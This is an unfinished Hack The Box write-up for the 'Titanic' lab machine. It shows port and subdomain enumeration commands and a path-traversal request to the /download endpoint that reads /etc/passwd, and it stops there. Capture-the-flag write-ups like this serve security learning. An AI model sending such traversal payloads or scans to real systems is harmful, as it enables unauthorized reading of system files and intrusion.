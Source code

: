 ### Hack The Box Writeup: Titanic

## Overview

- **Machine Name**: Titanic
- **Difficulty**: Easy
- **Platform**: Hack The Box
- **Operating System**: Linux
- **Key Objectives**: 
- **Date Solved**: June 2025


## Tools Used

- **Enumeration**: 
- **Exploitation**: 
- **Privilege Escalation**: 
- **Other**: 

## Methodology

### Initial Enumeration

```bash
nmap -p- --open --min-rate 5000 -sS -n -vvV -Pn 10.10.11.55 -oG allPorts
nmap -sCV -p22,80 10.10.11.55 -oN targeted

# add http://titanic.htb /etc/hosts
whatweb http://titanic.htb
# ans
http://titanic.htb [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.10.11.55], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]

gobuster dir -u http://titanic.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

dirb http://titanic.htb -w /usr/share/dirb/wordlists/common.txt

ffuf -u http://titanic.htb -H "Host: FUZZ.titanic.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -mc 200 # use

# Using burpsuite
![alt text](image.png)

# file disclosure vulnerability
# Click on follow redirection to view GET response
![alt text](image-1.png)

eeeafeda-fe86-4dc3-8c8e-bbb9891af355.json # looks like a place in the server

# path traversal
# ans
GET /download?ticket=../../../../../../etc/passwd HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/book
Origin: http://titanic.htb
DNT: 1
Connection: keep-alive
```